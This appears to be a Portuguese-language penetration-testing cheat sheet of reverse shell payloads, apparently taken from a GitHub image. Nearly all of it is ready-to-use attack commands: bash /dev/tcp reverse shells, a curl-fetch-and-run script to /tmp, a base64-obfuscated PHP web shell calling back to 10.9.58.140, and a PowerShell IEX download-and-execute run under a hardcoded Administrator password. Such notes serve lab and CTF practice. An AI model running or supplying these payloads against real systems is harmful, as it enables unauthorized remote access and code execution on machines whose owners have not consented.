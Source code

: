 ## Payloads:  

### Bash:  
`/bin/bash -c 'bash -i > /dev/tcp/$LHOST/$LPORT 0>&1'`  
`bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1`  

## Shell reversa com script bash:  
1. Crie um script em bash com o payload `bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1` e extensão `.sh`.  
2. Inicie um servidor http na máquina atacante com `python3 -m http.server 80`  
3. Faça o download do script na máquina alvo na pasta temporária com `curl http://$LHOST/shell.sh -o /tmp/shell.sh`  
4. Altere a permissão de execução do arquivo no alvo com `chmod +x /tmp/shell.sh`  
5. Execute o script no alvo com `/bin/bash /tmp/shell.sh`  


## Criar shell reversa em PHP no alvo com echo, utilize o comando abaixo para gerar o payload:  
```bash
echo "echo $(echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.9.58.140/443 0>&1'\"); ?>" | base64) | base64 -d > shell.php"
# Payload:
#echo PD9waHAgZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuNTguMTQwLzQ0MyAwPiYxJyIpOyA/Pgo= | base64 -d > shell.php
```

### Capturar requisições do ping:
```bash
sudo tcpdump -i tun0 icmp
```

# Subir shell e executar com credencial do administrador

```powershell
# Variável com a senha em texto claro
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  

# Variável com as credenciais do admin
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  

# Download da shell utilizando as credenciais e executando
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2:81/shell.ps1')" -Credential $cred
```